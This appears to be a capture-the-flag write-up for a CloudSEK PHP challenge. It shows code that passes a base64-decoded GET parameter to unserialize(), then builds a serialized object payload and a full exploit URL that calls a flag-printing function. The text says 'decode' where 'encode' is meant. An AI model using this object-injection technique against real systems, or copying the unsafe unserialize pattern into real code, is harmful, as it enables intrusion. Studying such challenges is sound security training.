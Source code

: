 ```php
    function GetMeDemFlagz()    {
        $flag_file = "/tmp/flag.txt";
        if (file_exists($flag_file))    {
            $file_contents = file_get_contents($flag_file);
            echo $file_contents;
        }
        else    {
            $err_msg = "<h3>File Not Found!</h3>";
            $file_contents = $err_msg;
            echo $err_msg;
        }
    }
}

// $cloudsek = new CloudSEK(1 , "XVigil");
$sess = $_GET["sess"];
if (!isset($sess))  {
    exit();
}
$data = base64_decode($sess);
$obj = unserialize($data);

?>

```


![image](/images/md/614e9955-4dfe-4861-93dc-727be8da744a.png)


In this code we can see that it is checking if GET parameter `sess` exist if yes Base64 decode it and parse it to php unserialize() 

There is also  `__wakeup()` function which is called on unserialize

to get the flag we have to call `GetMeDemFlagz` function. __wakeup function will perform rot13 on `func_name` and value of `func_no` should be index of the name of function in `func_map` array.


![image](/images/md/26d57175-a6e9-4afa-a12d-265deadf4863.png)

Now lets create the payload

Object name would be `CloudSEK` <-- name of the class. 
func_no = 3 and func_name = rot13("GetMeDemFlagz")

```
O:8:"CloudSEK":2:{s:7:"func_no";i:3;s:9:"func_name";s:13:"TrgZrQrzSyntm";}
```

Base64 decode this and put it in GET parameter `sess`

```
https://webctf.cloudsek.com/serialization-saga?sess=Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=
```
